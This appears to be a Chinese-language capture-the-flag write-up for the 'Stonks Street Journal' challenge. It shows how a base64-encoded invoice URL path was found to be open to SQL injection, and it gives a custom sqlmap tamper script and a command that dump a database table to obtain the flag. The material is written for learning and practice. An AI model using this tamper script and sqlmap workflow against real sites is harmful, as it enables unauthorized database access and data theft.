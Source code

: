 ```yaml
---
title: Stonks Street Journal
categories:
- wp
feature_text: |
  Stonks Street Journal


---
```






<!-- more -->

### 2021.12.2 

### Stonks Street Journal

在网站成功注册后可以查看 `invoice`

查看时发现URL末尾有一串看起来像base64编码的字符串

``http://ssj.rumble.host/legacy_invoice_system/Umljay0yMDIxLTExLTI5`

解码后得到`USERNAME-YEAR-MONTH-DAY`

在username后加上`'`，发生SQL报错

```
syntax error at or near "2021"
LINE 1: ...riber WHERE username='jumaoo1'' AND signup_date='2021-11-27...
                                                             ^
```

输入的字符串似乎被拆分成了username和signup date然后被传递到SQL查询中，没有过滤

使用一个自定义SQLMap篡改脚本，利用脚本把payload附加到signup date后面，然后对字符串base64编码，在传递到自定义注入点`GET /legacy_invoice_system/*`

脚本：

```
import base64
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against the payload
__priority__ = PRIORITY.NORMAL   //记住就行（？）

def tamper(payload, **kwargs):    //kwargs就是字典中的key+value
    retVal = base64.b64encode(('jumaoo1-2021-11-27' + payload).encode()).decode()
    
    return retVal
```

塞进SQLmap里执行：

`sqlmap -r invoice.req --tamper tamper.py --threads 10 -T news_article --dump`

- -r：抓包
- --tamper：脚本
- --threads：多线程
- -T：表名

得到flag